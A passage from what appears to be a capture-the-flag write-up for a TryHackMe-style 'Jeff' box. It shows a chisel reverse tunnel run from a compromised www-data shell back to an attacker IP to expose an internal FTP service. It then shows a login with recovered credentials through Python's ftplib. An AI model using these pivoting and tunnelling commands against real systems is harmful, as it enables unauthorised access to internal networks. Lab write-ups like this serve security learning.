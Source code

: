 ### On remote Box
```console
www-data@Jeff:/tmp$ ./chisel client 10.6.31.213:1880 R:21:172.20.0.1:21
2020/12/28 15:32:51 client: Connecting to ws://10.6.31.213:1880
2020/12/28 15:32:52 client: Fingerprint 45:7c:4d:14:00:e3:bf:5b:3d:e8:28:3b:b6:e5:8e:b0
2020/12/28 15:32:54 client: Connected (Latency 380.583908ms)
```
Now the port forwarding is successful. 

## Enumerating FTP service
![14](/assets/images/thm/jeff/14.png)
Using the credentials, we successfully log in.

```console
ftp> dir 
500 Illegal PORT command.
ftp: bind: Address already in use
```
But I was getting error while running basics commands. So I searched around to find out what those errors meant and found a [article](https://serverfault.com/questions/450651/500-illegal-port-command-using-command-line-ftp) but I was not able get it to work and I was finally able to do the FTP enumeration from the python3.7 inside the docker container.

### Directory Listing on FTP 
```console
www-data@Jeff:/var/www/html$ python3.7
Python 3.7.3 (default, Dec 20 2019, 18:57:59) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import ftplib
>>> session = ftplib.FTP('172.20.0.1','backupmgr','<ftp_readacted_password>')
>>> session.set_pasv(False)
>>> session.dir()
drwxr-xr-x    2 1001     1001         4096 May 18  2020 files
>>> session.cwd('files')
'250 Directory successfully changed.'
>>> session.dir()
```
I was able to get the directory listing when set passive mode to False. On the FTP server we have a folder and the folder files is empty.
